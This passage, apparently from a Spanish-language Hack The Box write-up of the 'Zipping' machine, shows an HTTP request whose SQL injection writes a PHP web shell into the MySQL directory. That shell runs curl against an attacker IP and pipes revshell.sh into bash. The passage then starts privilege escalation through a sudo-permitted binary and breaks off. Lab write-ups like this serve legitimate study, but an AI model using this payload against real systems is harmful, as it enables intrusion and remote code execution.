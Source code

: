 ```bash
GET /shop/index.php?page=product&id=%0A'%3bselect+'<%3fphp+system("curl+http%3a//10.10.14.38/revshell.sh|bash")+%3f>'+into+outfile+'/var/lib/mysql/a.php'%231 HTTP/1.1
Host: zipping.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Cookie: PHPSESSID=2id3kjr4t69l0fg99j9ki12h29
Upgrade-Insecure-Requests: 1
```

Y de esta forma logramos ganar acceso al sistema.

![Burp Suite Repeater](/assets/img/htb/zipping/zipping-34.png)
_Burp Suite Repeater_

Leemos el flag del usuario.

![user.txt](/assets/img/htb/zipping/zipping-35.png)
_user.txt_

## Escalación de privilegios

Luego de hacer una enumeración básica del sistema, encontramos que podemos ejecutar el binario `/usr/bin/stock` sin que se requiera la introducción de una contraseña.

![/usr/bin/stock](/assets/img/htb/zipping/zipping-36.png)
_/usr/bin/stock_

Al ejecutar el binario, vemos que nos solicita una contraseña para poder ejecutarlo.
